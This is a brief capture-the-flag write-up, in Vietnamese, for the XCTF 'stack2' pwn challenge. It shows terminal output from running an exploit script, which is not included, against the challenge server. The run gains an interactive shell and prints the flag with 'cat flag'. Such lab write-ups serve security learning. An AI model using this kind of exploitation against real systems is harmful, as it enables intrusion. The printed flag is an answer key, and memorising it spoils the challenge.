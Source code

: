 # XCTF - PWN Challenge - stack2

>Tiến hành viết file [exploit.py](exploit.py) và khai thác:

```
l1j9m4 in ~/0_PWNable_/ADworld_XCTF/Challenge/stack2 λ python2 exploit.py
[+] Opening connection to 111.200.241.244 on port 55067: Done
[+] 1
80
132
4
8
0x8c
135
137
4
8
[+] 2
[*] Switching to interactive mode
$ ls
bin
dev
flag
lib
lib32
lib64
stack2
$ cat flag
cyberpeace{2766c15645604d58a587d8ad1e4df984}
$  
```

